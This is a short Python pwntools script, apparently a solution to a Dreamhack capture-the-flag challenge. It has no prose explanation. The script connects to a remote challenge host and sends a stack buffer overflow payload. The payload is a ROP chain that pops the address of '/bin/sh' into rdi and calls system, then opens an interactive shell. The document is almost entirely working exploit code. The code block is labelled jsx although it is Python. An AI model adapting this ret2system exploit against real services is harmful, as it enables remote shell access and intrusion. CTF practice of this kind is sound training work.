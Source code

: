 ```jsx
from pwn import *

context.log_level = 'debug'
p = remote('host3.dreamhack.games', 21198)
e = ELF('./chall')

system = e.symbols['system']
binsh = 0x4020c4

pop_rdi = 0x401565
ret = 0x40101a

payload = b'A' * 0x10 + b'B' * 0x8
payload += p64(pop_rdi) + p64(binsh)
payload += p64(ret) + p64(system)

p.sendafter(b'Input: ', payload)

p.interactive()
```